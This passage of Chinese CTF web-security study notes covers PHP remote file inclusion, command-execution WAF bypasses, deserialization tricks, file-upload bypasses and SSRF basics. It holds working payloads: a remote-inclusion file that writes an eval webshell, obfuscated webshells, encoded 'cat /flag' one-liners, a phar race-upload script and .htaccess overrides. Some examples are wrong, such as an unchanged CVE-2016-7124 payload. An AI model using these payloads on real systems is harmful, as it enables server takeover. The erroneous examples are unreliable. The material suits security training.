条件：allow_url_fopen = On

远程服务器中shell.txt文件内容：

`<?php fputs(fopen("shell.php","w"),"<?php eval(\$_POST['abc']);?>");?>`

执行：http://targetip/index.php?page=http://remoteip/shell.txt

此时在index.php所在的目录下会生成一个shell.php文件，文件内容为php一句话木马：`<?php eval($_POST[’abc’]);?>`

[CTFHub](https://www.ctfhub.com/#/skilltree)

## PHP RCE

### 什么是RCE

RCE又称远程代码执行漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。

### RCE产生原因

服务器没有对执行命令的函数做严格的过滤，最终导致命令被执行。

### 相关危险函数

```text
PHP代码执行函数：
eval()、assert()、preg_replace()、create_function()、array_map()、call_user_func()、call_user_func_array()、array_filter()、uasort()、等

PHP命令执行函数：
system()、exec()、shell_exec()、pcntl_exec()、popen()、proc_popen()、passthru()、等
```

**常见代码执行**

1. `eval`

   `eval`会直接把输入的字符串作为PHP代码去执行。要注意代码结尾需要用`;`结束

2. `assert`

   `assert`会直接把输入的字符作为PHP代码去执行。代码结尾不需要用`;`结束

3. `call_user_func`

   `call_user_func` 函数用于调用一个回调函数（可调用的对象）并传递参数。这个函数可以用于调用函数、方法或者类的静态方法。

   ```php
   class MyClass {
       public function myMethod($arg) {
           return "Hello, $arg!";
       }
   }
   
   $myObject = new MyClass();
   $result = call_user_func(array($myObject, 'myMethod'), 'AW');
   echo $result; // 输出：Hello, AW!
   
   ```

4. `create_function`

   创建一个函数，从 PHP 7.2 版本开始已被弃用

   ```php
   $addFunction = create_function('$a, $b', 'return $a + $b;');
   $result = $addFunction(2, 3);
   echo $result; // 输出：5
   ```

   和下面这种等价

   ```php
   $addFunction = function($a, $b) {
       return $a + $b;
   };
   
   $result = $addFunction(2, 3);
   echo $result; // 输出：5
   ```

5. `array_map`

   `array_map` 是一个用于对数组中的每个元素应用回调函数的 PHP 函数。它返回一个新数组，其中包含了每个元素被回调函数处理后的结果。

   ```
   array array_map ( callable $callback , array $array1 [, array $... ] )
   ```

6. `$func()`

   ```
   <?php
   function abc(){
       echo 'Hello World!';
   }
   
   $func = 'abc';
   $func();
   ```

**常见命令执行**

1. `system`

   `system()`函数执行有回显，将执行结果输出到页面上

2. `exec`

   `exec`无回显

3. `popen`

   `popen()` 函数用于打开一个管道，可以用来执行一个外部命令，并通过管道与该命令进行交互。

   ```
   resource popen ( string $command , string $mode )
   ```

   - `string $command` 是要执行的外部命令。
   - `string $mode` 是打开管道的模式。可以是 "r"（只读）、"w"（只写）或 "r+"（读写）。

   `popen()` 函数返回一个资源类型的句柄，你可以使用这个句柄来读取外部命令的输出或向其输入数据。使用完毕后使用 `pclose()` 函数来关闭管道。

   ```
   $handle = popen('ls -l', 'r');
   if ($handle) {
       while (!feof($handle)) {
           echo fgets($handle);
       }
       pclose($handle);
   }
   ```

4. `shell_exec`

   `shell_exec()` 函数用于执行给定的 shell 命令，并返回命令的输出作为字符串。

   ```
   echo shell_exec('ls -l');
   ```

5. 反引号执行命令``

   ```
   #shell_exec() 函数实际上仅是反撇号 (`) 操作符的变体，当禁用shell_exec时，` 也不可执行
   <?php
   	echo `whoami`;
   ?>
   ```

   

### 一些WAF的绕过方式

#### 空格

```
#常见的绕过符号有：
$IFS$9 、${IFS} 、%09(php环境下)、 重定向符<>、<、
kg=$'\x20flag.txt'&&cat$kg
# $IFS在linux下表示分隔符，如果不加{}则bash会将IFS解释为一个变量名，加一个{}就固定了变量名，$IFS$9后面之所以加个$是为了起到截断的作用
```

#### 命令分隔符

```
%0a  #换行符，需要php环境
%0d  #回车符，需要php环境
;    #在 shell 中，是”连续指令”
&    #不管第一条命令成功与否，都会执行第二条命令
&&   #第一条命令成功，第二条才会执行
|    #第一条命令的结果，作为第二条命令的输入
||   #第一条命令失败，第二条才会执行
```

#### 关键字

- 拼接绕过

  ```
  #执行ls命令：
  a=l;b=s;$a$b
  #cat flag文件内容：
  a=c;b=at;c=f;d=lag;$a$b ${c}${d}
  #cat test文件内容
  a="ccaatt";b=${a:0:1}${a:2:1}${a:4:1};$b test
  ```

- 编码绕过

  ```
  #base64
  echo "Y2F0IC9mbGFn"|base64 -d|bash  ==> cat /flag
  echo Y2F0IC9mbGFn|base64 -d|sh      ==> cat /flag
  #hex
  echo "0x636174202f666c6167" | xxd -r -p|bash   ==> cat /flag
  #oct/字节
  $(printf "\154\163") ==>ls
  $(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag
  {printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==>cat /flag
  #i也可以通过这种方式写马
  #内容为<?php @eval($_POST['c']);?>
  ${printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php
  ```

- 单引号和双引号绕过

  ```
  c'a't /flag
  c"a"t /flag
  ```

- 反斜杠绕过

  ```
  ca\t /flag
  ```

- 通过$PATH绕过

  ```
  #echo $PATH 显示当前PATH环境变量，该变量的值由一系列以冒号分隔的目录名组成
  #当执行程序时，shell自动跟据PATH变量的值去搜索该程序
  #shell在搜索时先搜索PATH环境变量中的第一个目录，没找到再接着搜索，如果找到则执行它，不会再继续搜索
  echo $PATH 
  /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
  `echo $PATH| cut -c 8,9`t test
  ```

- 通配符绕过

  >1. […]表示匹配方括号之中的任意一个字符
  >2. {…}表示匹配大括号里面的所有模式，模式之间使用逗号分隔。
  >3. {…}与[…]有一个重要的区别，当匹配的文件不存在，[…]会失去模式的功能，变成一个单纯的字符串，而{…}依然可以展开
  >
  >
  >
  >1. `*`（星号）：匹配任意长度的任意字符。
  >   - 例如：`*.txt` 匹配所有以 `.txt` 结尾的文件名。
  >2. `?`（问号）：匹配任意单个字符。
  >   - 例如：`file?.txt` 匹配类似 `file1.txt`、`fileA.txt` 等文件名。
  >3. `[characters]`：匹配字符集中的任意一个字符。
  >   - 例如：`file[0-9].txt` 匹配类似 `file1.txt`、`file5.txt` 等文件名。
  >4. `[!characters]` 或 `[^characters]`：匹配不在字符集中的任意一个字符。
  >   - 例如：`file[!0-9].txt` 匹配不以数字结尾的文件名。
  >5. `{pattern1,pattern2,...}`：匹配指定的模式。
  >   - 例如：`{file1,file2}.txt` 匹配 `file1.txt` 和 `file2.txt`。
  >6. `()`：用于创建子模式，通常与其他通配符结合使用。
  >   - 例如：`file{1,2}.txt` 与 `{file1,file2}.txt` 等效。
  >7. `\`：用于转义特殊字符，让其失去其特殊含义。
  >   - 例如：`file\?.txt` 匹配 `file?.txt` 文件。

  ```
  cat t?st
  cat te*
  cat t[a-z]st
  cat t{a,b,c,d,e,f}st
  ```

```php
<?php  
  
error_reporting(0);  
highlight_file(__FILE__);  
  
$code = $_POST['code'];  
  
$code = str_replace("(","括号",$code);  
  
$code = str_replace(".","点",$code);  
  
eval($code);  
  
?>

```

```
<?php  

error_reporting(0);  
highlight_file(__FILE__);  
  
if (isset($_POST['ctf_show'])) {  
$ctfshow = $_POST['ctf_show'];  
if (is_string($ctfshow)) {  
if (!preg_match("/[a-zA-Z0-9@#%^&*:{}\-<\?>\"|`~\\\\]/",$ctfshow)){  
eval($ctfshow);  
}else{  
echo("Are you hacking me AGAIN?");  
}  
}else{  
phpinfo();  
}  
}  
?>

```

[CTFHub](https://www.ctfhub.com/#/skilltree)

[CTF中WEB题——RCE_tomyyyyy的博客-CSDN博客](https://blog.csdn.net/tomyyyyyy/article/details/115403458)

[PHP不包括字母,数字和下划线的webshell_php $ [\]++_酉酉囧的博客-CSDN博客](https://blog.csdn.net/qq_41725312/article/details/83447606)

[一些不包含数字和字母的webshell | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

## PHP反序列化

PHP类与对象：类、对象、方法、属性

[PHP 面向对象 | 菜鸟教程 (runoob.com)](https://www.runoob.com/php/php-oop.html)

[php-18个魔法函数 - 胖三斤1 - 博客园 (cnblogs.com)](https://www.cnblogs.com/tzf1/p/15030202.html#17)

序列化与反序列化：

- `string serialize ( mixed $value )`

  用于序列化对象或数组，并返回一个字符串。

  注意：如果属性是保护和私有的属性，那么他们序列化后的属性名会被特殊字符包裹

- `mixed unserialize ( string $str )`

  用于将通过`serialize()`函数序列化后的对象或数组进行反序列化，并返回原始的对象结构。

如何造成的反序列化？首先就是**要有可用的魔术方法作为“跳板”，且存在一些只要参数可控就会造成破坏的函数调用。**

1. 直接控制`unserialize()`的参数值

   pop链的构造：<u>*awctf --- HE-ezser*</u>

2. 文件读取操作

   phar压缩文件


[CTF：PHP MD5函数0E绕过漏洞_md5 0e_半点闲的博客-CSDN博客](https://blog.csdn.net/cg_i/article/details/117448881)

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class QvQ {
	public $name;
	public $like;
	function __construct() {
		$this->name = "未来的Web神";
		$this->like = "op";
	}
	function __wakeup() {
		if($this->like != md5($this->like)) {
			$this->name = "web狗";
			echo "醒醒吧，web狗";
		}
	}
	public function __destruct() {
		echo "Welcome here ^.^".$this->name;
	}
}
class OvO {
	public $obj;
	public function __clone() {
		echo "__clone() ";
		($this->obj)();
	}
}
Class UvU {
	public $gaga;
	public $lady;
	public function __toString() {
		echo "__toString() ";
		$lady = clone($this->gaga);
	}
}
Class FvF {
	public $name = "invoke";
	public function __invoke() {
		echo "__invoke() ";
		echo file_get_contents("/flag");
	}
}
$_ = new QvQ();
if(isset($_GET['pop'])) {
	unserialize($_GET['pop']);
}
```

### PHP反序列化字符串逃逸

[PHP反序列化字符逃逸详解_filter反序列化_zhang三的博客-CSDN博客](https://blog.csdn.net/qq_45521281/article/details/107135706)

php代码序列化后的基本格式：

```
O:<length>:"<class name>":<n>:{
<field type 1>:<field length 1>:"<field name 1>";<field value type 1>:<field value 1>;
...
<field type n>:<field length n>:"<field name n>";<field value type n>:<field value n>;} 
```

- O:表示序列化的事对象
- < length>:表示序列化的类名称长度
- < class name>：表示序列化的类的名称
- < n >:表示被序列化的对象的属性个数
- {…………}：属性列表
- < field type >：属性类型
- < field length >：属性名长度
- < field name >：属性名
- < field value type >：属性值类型
- < field value >：属性值


此类题目的本质就是改变序列化字符串的长度，导致反序列化漏洞

这种题目有个共同点：

1. php序列化后的字符串经过了替换或者修改，导致字符串长度发生变化。
2. 总是先进行序列化，再进行替换修改操作。

**序列化后导致字符串变长**：<u>*awctf --- 蒸滴简单*</u>

[从一道CTF题来理解PHP反序列化中的字符逃逸漏洞 - Dubh3 - 博客园 (cnblogs.com)](https://www.cnblogs.com/dubh3/p/14477857.html)

```php
<?php
function filter($str){
    return str_replace('bb', 'ccc', $str);
}
class A{
    public $name='aaaa';
    public $pass='123456';
}
$a=new A();
echo serialize($a)."\n";
$res=filter(serialize($a));

$c=unserialize($res);
echo $c->name;
?>
```

**序列化后导致字符串变短**：<u>*buuctf --- [安洵杯 2019]easy_serialize_php*</u>

```php
<?php
function str_rep($string){
	return preg_replace( '/php|test/','', $string);
}

$test['name'] = '111phpphpphpphpphpphptest';
$test['sign'] ='111";s:4:"sign";s:3:"222";s:6:"number";s:4:"2023";}'; 
$test['number'] = '2020';
$temp = str_rep(serialize($test));
printf($temp);
$fake = unserialize($temp);
echo "\n";
print("name:".$fake['name']."\n");
print("sign:".$fake['sign']."\n");
print("number:".$fake['number']."\n");

```


### phar反序列化

https://blog.csdn.net/q20010619/article/details/120833148

**要将php.ini中的phar.readonly选项设置为Off，否则无法生成phar文件**

phar文件是php里类似于JAR的一种打包文件本质上是一种压缩文件，在PHP 5.3 或更高版本中默认开启，一个phar文件一个分为四部分：a.phar

>1.a stub
>
>​    可以理解为一个标志，格式为xxx<?php xxx; __HALT_COMPILER();?>，前面内容不限，但必须以__HALT_COMPILER();来结尾，否则phar扩展将无法识别这个文件为phar文件
>
>2.a manifest describing the contents
>
>​	phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data，这是上述攻击手法最核心的地方
>
>3.the file contents
>
>被压缩文件的内容
>
>4.[optional] a signature for verifying Phar integrity (phar file format only)
>
>​	签名，放在文件末尾、

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("asdas<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

meta-data是以序列化的形式存储的

php一大部分的文件系统函数在通过phar://伪协议解析phar文件时，都会将meta-data进行反序列化，测试后受影响的函数如下


phar协议要求：

- php大于5.3.0
- 需要将php.ini的参数phar.readonly设置为off

**漏洞利用条件**

1. phar文件要能够上传到服务器端。
2. 要有可用的魔术方法作为“跳板”。
3. 文件操作函数的参数可控，且`:`、`/`、`phar`等特殊字符没有被过滤

#### 将phar伪造成其他格式的文件

如果文件上传界面后端代码会检查文件类型的话，就需要将 phar 文件未造成其他格式文件

由于php识别phar文件是通过其文件头的stub，更确切一点来说是`__HALT_COMPILER();`这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以通过添加任意的文件头+修改后缀名的方式将phar文件伪装成其他格式的文件

>474946383961, .gif, "GIF 89A"
>
>474946383761, .gif, "GIF 87A"

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```


#### 绕过phar关键字检测

```
if (preg_match("/^php|^file|^gopher|^http|^https|^ftp|^data|^phar|^smtp|^dict|^zip/i",$filename){
    die();
}
```

绕过方法

```
// Bzip / Gzip 当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://绕过
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///home/sx/test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
// 还可以使用伪协议的方法绕过
php://filter/resource=phar:///test.phar/test.txt
php://filter/read=convert.base64-encode/resource=phar://phar.phar
```

#### 绕过__HALT_COMPILER特征检测

因为phar中的`a stub`字段必须以`__HALT_COMPILER();`字符串来结尾，否则`phar`扩展将无法识别这个文件为`phar`文件，所以这段字符串不能省略，只能绕过

**方法一：**

首先将 phar 文件使用 gzip 命令进行压缩，可以看到压缩之后的文件中就没有了`__HALT_COMPILER()`，将 phar.gz 后缀改为 png（png文件可以上传）


```
filename=phar://pharppp.phar.gz/pharppp.phar
```

**方法二**

将phar的内容写进压缩包注释中，也同样能够反序列化成功，压缩为zip也会绕过该正则

```
$phar_file = serialize($exp);
    echo $phar_file;
    $zip = new ZipArchive();
    $res = $zip->open('1.zip',ZipArchive::CREATE); 
    $zip->addFromString('crispr.txt', 'file content goes here');
    $zip->setArchiveComment($phar_file);
    $zip->close();
```

这篇文章在php源码角度给出分析：https://www.anquanke.com/post/id/240007

> phar反序列化过程中，对metadata进行解析的时候会进行`php_var_unserialize()`将Phar中的metadata进行反序列化

<u>*ctfshow --- 276*</u>

<u>*BUUCTF --- [NCTF2019]phar matches everything*</u>

```python
#!/usr/bin/env python
# -*- coding: UTF-8 -*-

import requests
import threading

flag = False
url = "http://8f6f1872-fd37-4431-a005-55b6b4e1d2a2.challenge.ctf.show/"
data = open('./phar.phar', 'rb').read()

pre_resp = requests.get(url)
if pre_resp.status_code != 200:
    print(url + ' -> nonono')
    exit(1)

def upload():
    global flag
    while not flag:
        requests.post(url+"?fn=phar.phar", data=data)


def read():
    global flag
    while not flag:
        r = requests.post(url+"?fn=phar://phar.phar/", data="")
        if "ctfshow{" in r.text and flag is False:
            print(r.text)
            flag = True

if __name__ == "__main__":
    a = threading.Thread(target=upload)
    b = threading.Thread(target=read)
    a.start()
    b.start()
    a.join()
    b.join()
```

### session反序列化

先说一下 PHP 处理 session 的一些细节信息。

PHP 在存储 session 的时候会进行序列化，读取的时候会进行反序列化。它内置了多种用来序列化/反序列化的引擎，用于存取 `$_SESSION` 数据：

1. `php`: 键名 + `|` + 经过 `serialize()`/`unserialize()` 处理的值。这是现在默认的引擎。
2. `php_binary`: 键名的长度对应的 ASCII 字符 + 键名 + 经过 `serialize()`/`unserialize()` 处理的值
3. `php_serialize`: 直接使用 `serialize()`/`unserialize()` 函数。(php>=5.5.4)

session 相关的信息，可以在 phpinfo 里查到：


1. `session.auto_start`: 是否自动启动一个 session
2. `session.save_path`: 设置 session 的存储路径
3. `session.save_handler`: 设置保存 session 的函数
4. `session.serialize_handler`: 设置用来序列化/反序列化的引擎
5. `session.upload_progress.enabled`: 启用上传进度跟踪，并填充$ _SESSION变量，默认启用
6. `session.upload_progress.cleanup`: 读取所有POST数据（即完成上传）后立即清理进度信息，默认启用

在我这个 PHP 的配置中，不会自动记录 session，session 内容是以文件方式来存储的（文件以 `sess_` + sessionid 命名）；由于存储的路径为空，所以运行的时候需要指定一下；序列化/反序列引擎为 `php`。

```
┌──(root💀kali)-[/home/soyamilk/桌面]
└─# php ser_session.php                     
                                                                                                                                                                                                     
┌──(root💀kali)-[/home/soyamilk/桌面]
└─# php -d 'session.serialize_handler=php_binary' ser_session.php 
                                                                                                                                                                                                     
┌──(root💀kali)-[/home/soyamilk/桌面]
└─# php -d 'session.serialize_handler=php_serialize' ser_session.php
```


**进行利用：**

不同的序列化/反序列化引擎对数据处理方式不同，造成了安全问题。

引擎为 php_binary 的时候，暂未发现有效的利用方式，所以目前主要还是 php 与 php_serialize 两者混用的时候导致的问题。

phpinfo


set_session.php

```php
<?php
    ini_set('session.serialize_handler', 'php_serialize');
    ini_set('session.save_path', 'D:\phpstudy_pro\WWW\PHP_session_unserialize_demo\session_save');
	session_start();
	$_SESSION['name0'] = 'wi1shu';
    if (array_key_exists('payload', $_GET)){
        $_SESSION['name1'] = $_GET['payload'];
    }else{
        $_SESSION['name1'] = '"|s:6:"wi1shu';
    }

    print_r(session_id());
```

unserialize_session.php

```php
<?php
    ini_set('session.save_path', 'D:\phpstudy_pro\WWW\PHP_session_unserialize_demo\session_save');
    session_start();
    var_dump($_SESSION);
```



php 引擎的格式为：键名 + `|` + 经过 `serialize()`/`unserialize()` 处理的值。那么对于这个例子来说，name 就是 `a:2:{s:5:"name0";s:6:"wi1shu";s:5:"name1";s:13:""`，`s:6:"wi1shu";}` 就是待反序列化的值。那么这里就非常清楚了，本质上就是通过 `|` 来完成注入（`"` 负责闭合引号，防止解析错误），让 php 引擎误以为前面全是 name，这样参与反序列化的数据就可以由我们来控制了。

举个例子

test_session.php

```php
<?php
highlight_file(__FILE__);
ini_set('session.save_path', dirname(__FILE__).'\session_save');
class f4ke{
    public $name;
    function __wakeup(){
        echo "Wha t ar e yo u doin g O.o?";
    }
    function __destruct(){
        eval($this->name);
    }
}

session_start();
var_dump($_SESSION);
$str = new f4ke();
?>
```

结合 set_session.php 就能够实现反序列化命令执行


###  CVE-2016-7124

这是一个 PHP 的 CVE，影响版本：

1. PHP5 < 5.6.25
2. PHP7 < 7.0.10

当序列化字符串中表示对象中属性个数的数字，大于真正的属性个数时，就会跳过 `__wakeup` 函数的执行（会触发两个长度相关的 `Notice: Unexpected end of serialized data`）。

demo.php

```php
<?php
highlight_file(__FILE__);
class A {
    public $test;

    function __wakeup() {
        $this->test = new B;
    }

    function __destruct() {
        $this->test->check();
    }
}

class B {
    function check() {
        echo phpversion()."\n";
    }
}

class C {
    public $boom;
    function check() {
        eval($this->boom);
    }
}

if (isset($_GET['payload'])){
    $user = unserialize($_GET['payload']);
}else{
    $user = new A();
    $user->test = new B();
}
```

```
O:1:"A":1:{s:4:"test";O:1:"C":1:{s:4:"boom";s:10:"phpinfo();";}}
修改为
O:1:"A":1:{s:4:"test";O:1:"C":1:{s:4:"boom";s:10:"phpinfo();";}}
即可执行payload
```


## 文件上传

### webshell

黑客在入侵了一个网站后，通常会将asp或php后门文件与网站web服务器目录下正常的网页文件混在一起，然后就可以使用浏览器来访问asp或者php后门，得到一个命令执行环境，以达到控制网站服务器的目的。这个后门文件就是所谓的webshell。 

#### 一句话木马

一句话木马是Webshell的一种，由于这类Webshell代码比较少，往往只有一行代码，所以就被称为一句话木马。
一句话木马虽然代码简单，但是结合蚁剑等Webshell管理工具，它们的功能却是非常的强大。

>##### 中国蚁剑【antSword】
>
>中国蚁剑是一款开源的跨平台网站管理工具，它主要面向与合法授权的渗透测试安全人员以及进行常规操作的网站管理员
>
>地址：https://github.com/AntSwordProject/antSword
>
>优点：插件市场、开源、跨平台，只需要安装对应版本的加载器就可以在各种平台下用
>
>首次使用要进行一次源码的加载，只需要加载一次，之后就不用次次都加载了直接用就完了
>
>
>
>操作和前几个都差不多
>
>
>
>下面还可以修改**请求信息**，它强大在他的**其他设置**，这对于绕过一些，防护设备有一定用处
>
>
>
>蚁剑的插件市场是很不错的，但是他的插件市场在github上，所以要先设置代理，这样会访问的快一点
>
>
>
>
>
>这样就可以使用插件了，自己研究着咋用把
>
>

php语言一句话木马举例

```php
<?php 
    @eval($_POST['cmd']);
?>
```

>- eval函数
>
> 把字符串按照 PHP 代码来计算,该字符串必须是合法的 PHP 代码，且必须以分号结尾。
>
>- $_POST
>
> PHP 超全局变量 $\_GET 和 $\_POST 用于收集表单数据（form-data）。

一句话木马会把我们通过POST方式提交的符合php代码规范的字符串当做php代码执行。

[PHP WebShell变形技术总结 - 腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1097506)

简单的webshell变形 加密类变形

```php
<?php
echo "404 Not Found!</br>"; error_reporting(0); 
if(isset($_POST['com']) && md5($_POST['com']) == '202cb962ac59075b964b07152d234b70' && isset($_POST['content'])) 
$content = strtr($_POST['content'], '-_,', '+/=');
eval(base64_decode($content));
echo 'We are sorry but the page your are looking for is Not Found...'
 ?> 
```

```php
<?php 
    $a = strtr("abatme","me","em"); // abatem
    $b = strtr($a,"ab","sy");  // stem
    $c = strtr('echo "<?php evqrw$_yKST[a])?>" > ./out.php',"qrwxyK","al(_PO"); 
    $b($c); 
?>
```

除了一句话木马这种Webshell外，常见的还有所谓的“大马”。一句话木马完成各种功能需要结合中国菜刀这种Webshell管理工具，而“大马”不需要中国菜刀，它本身就集成了完成各种功能所需的代码，因此代码量较大，俗称“大马”。
“大马”的功能不一，一般具有文件操作、命令执行、提取、目录浏览等多种功能


### 文件上传漏洞

在文件上传的功能处，若服务端脚本语言未对上传的文件进行严格验证和过滤，导致恶意用户上传恶意的脚本文件时，就有可能获取执行服务端命令的能力。这种攻击方式是最为直接和有效的，“文件上传”本身没有问题，有问题的是文件上传后，服务器怎么处理、解释文件。如果服务器的处理逻辑做的不够安全，则会导致严重的后果。

文件上传漏洞对Web应用来说是一种非常严重的漏洞。一般情况下，Web应用都会允许用户上传一些文件，如头像、附件等信息，如果Web应用没有对用户上传的文件进行有效的检查过滤，那么恶意用户就会上传一句话木马等Webshell，从而达到控制Web网站的目的。


### 文件上传漏洞原因

一些 web 应用程序中允许上传图片，文本或者其他资源到指定的位置，文件上传漏洞就是利用这些可以上传的地方将恶意代码植入到服务器中，再通过 url 去访问以执行代码.

造成文件上传漏洞的原因是:

1.服务器配置不当

2.开源编辑器上传漏洞

3.本地文件上传限制被绕过

4.过滤不严或被绕过

5.文件解析漏洞导致文件执行

6.文件路径截断

### 文件上传漏洞原理

大部分的网站和应用系统都有上传功能一些文件上传功能实现代码没有严格限制用户上传的文件后缀以及文件类型，导致允许攻击者向某个可通过Web访问的目录上传任意PHP文件，并能够将这些文件传递给PHP 解释器，就可以在远程服务器上执行任意 PHP脚本。
当系统存在文件上传漏洞时攻击者可以将病毒，木马，WebShell，其他恶意脚本或者是包含了脚本的图片上传到服务器,这些文件将对攻击者后续攻击提供便利。根据具体漏洞的差异，此处上传的脚本可以是正常后缀的PHP，ASP以及JSP脚本，也可以是篡改后缀后的这几类脚本

一般文件上传过程中将会经过如下几个检测步骤：

- 客户端JavaScript校验（一般是检验文件扩展名）

- 服务端校验

  - 文件头content-type 字段校验（image/gif）

    [HTTP content-type | 菜鸟教程 (runoob.com)](https://www.runoob.com/http/http-content-type.html)

  - 文件内容头校验（GIF89a）

    ```
    JPG     FF D8 FF E0 00 10 4A 46 49 46
    GIF     47 49 46 38 39 61     // GIF89a
    PNG     89 50 4E 47
    ```

  - 目录路径检测（00截断）

  - 文件扩展名检测

  - 后缀名黑名单、白名单校验

  - 自定义正则校验

- WAF设备校验

### 文件上传绕过


#### 客户端校验

upload-1


一般都是在网页上写一段javascript脚本，校验上传文件的后缀名，有白名单形式也有黑名单形式。判断方式：在浏览加载文件，但还未点击上传按钮时使弹出对话框，内容如：只允许上传jpg/.jpeg/.png后缀名的文件，而此时并没有发送数据包。

**绕过方法**

1. 直接禁用JavaScript
2. 控制台修改代码
3. burpsuite抓包修改

#### 服务端绕过

##### 双重后缀名绕过

上传时burp截取数据包然后将.php改为.pphphp，那么过滤了第一个"php"字符串"后，开头的'p'和结尾的'hp'就组合又形成了 php

##### 黑名单扩展名绕过

绕过扩展名校验一般是针对采用黑名单的Web应用系统。黑名单检测方式一般有个专门的blacklist文件或者列表，里面会包含常见的危险脚本文件类型，所有在黑名单中的文件都不允许上传。

**利用不在黑名单中，但是同样可以解析的文件类型**

1. 找黑名单扩展名的漏网之鱼 - 比如 iis6.0 中的 asa 和 cer 
2. 可能存在大小写绕过漏洞-比如 aSp(iis6.0 中可以）和 pHp（只能在小于php5.3.39中的linux中）之中
3. 能被WEB容器解析的文件其他扩展名列表i

```
也可以尝试大小写混用，php 中癿大小写解析只能在 linux 环境才能执行
ASP：asa、cer、cdx
ASPX：ashx、asmx、ascx、esms
PHP：php4、php5、phtml
JSP：jspx、jspf
```

**利用系统特性**

- windows系统下，文件名以“.”或者空格作为结尾，系统会自动删除“.”与空格，利用此特性也可以绕过黑名单验证，还有其他：

  test.asp.

  test.asp(空格)

  test.php:1.jpg

  test.php::$DATA

- linux下后缀名大小写

  在linux下，如果上传php不被解析，可以试试上传pHp后缀的文件名（前提条件是php版本小于等于5.3.29版本）

##### 结合00截断，绕过扩展名校验

通过抓包截断将attack.asp.jpg后面的一个.换成%00在上传的时候即attack.asp%00.jpg，当文件系统读到%00时，会认为文件已经结束，从而将attack.asp.jpg 的内容写入到 attack.asp 中，从而达到攻击的目的。%00不是针对所有基于白名单的后缀名检查都能绕过,代码的实现过程中必须存在截新上传漏洞。

upload-12

```php
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
    if(in_array($file_ext,$ext_arr)){
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = $_GET['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;

        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = '上传出错！';
        }
    } else{
        $msg = "只允许上传.jpg|.png|.gif类型文件！";
    }
}
```

##### 服务端MIME文件类型（Content-Type）绕过

使客户端软件，区分不同种类的数据，例如 web浏览器就是通过MIME类型来判断文件是 GIF 图片，还是可打印的 PostScript 文件。web服务器使用MIME来说明发送数据的种类，Web客尸端使用 MIME来说明希望接收到的数据种类，它是服务器用来判断浏览器传递文件格式的重要标记项



常见的文件上传类型的MIME表：

text/plain（纯文本）
**text/html（HTML 文档**
text/javascript （js代码）
application/xhtml+xml（XHTML 文档）
**image/gif（GIF图像）**
**image/jpeg（JPEG图像）**
**image/png（PNG图像）**
video/mpeg（MPEG动画）
application/octet-stream（二进制数据）
application/pdf（PDF 文档）
application/(编程语言）该种语言的代码
application/msword（Microsoft Word 文件）
message/rfc822（RFC 822 形式）
multipart/alternative（HTML邮件的 HTML 形式和纯文本形式，相同内容使
用不同形式表示）
application/x-www-form-urlencoded（POST方法提交的表单）
**multipart/form-data（POST提交时伴随文件上传的表单）**

**绕过方法：**

burp抓包然后改一下Content-Type参数

##### .htaccess文件重写绕过

```
第一种、虽然好用，但是会误伤其他正常文件，容易被发现
<IfModule mime_module>
AddHandler php5-script .gif          #在当前目录下，只针对gif文件会解析成Php代码执行
SetHandler application/x-httpd-php    #在当前目录下，所有文件都会被解析成php代码执行
</IfModule>
第二种、精确控制能被解析成php代码的文件，不容易被发现
<FilesMatch "evil.gif">
SetHandler application/x-httpd-php   #在当前目录下，如果匹配到evil.gif文件，则被解析成PHP代码执行
AddHandler php5-script .gif          #在当前目录下，如果匹配到evil.gif文件，则被解析成PHP代码执行
</FilesMatch>
第三种、同1没太大区别
<IfModule mime_module>
AddType application/x-httpd-php .gif
</IfModule>
```

[upload-labs通关攻略（全） - 渗透一只狗 - 博客园 (cnblogs.com)](https://www.cnblogs.com/huajiaobuxiango/p/15968800.html#安装)

AddType application/x-httpd-php .php .phtml .php5

AllowOverride all


magiv_quotes_gpc

## SQL注入

[ppt](file://D:\资料\23.8_培训\sql注入.pptx)

[[强网杯 2019\]随便注 1 - ZM思 - 博客园 (cnblogs.com)](https://www.cnblogs.com/wjw-zm/p/12359735.html)

## SSRF与gopher

<u>*awctf --- i_am_eeeeeshili*</u>

<u>*buuctf --- [De1CTF 2019]SSRF Me*</u>

### curl命令行工具

GET请求

```
curl http://127.0.0.1
```

POST请求

```
curl -x POST -d "a=1" http://127.
```

携带Cookie

```
curl -cookie "Cookie=xxx" http://xxx
```

上传文件

```
curl -F "file=@/etc/passwd" http://127.0.0.1
```

### SSRF中主要的协议

1. file协议

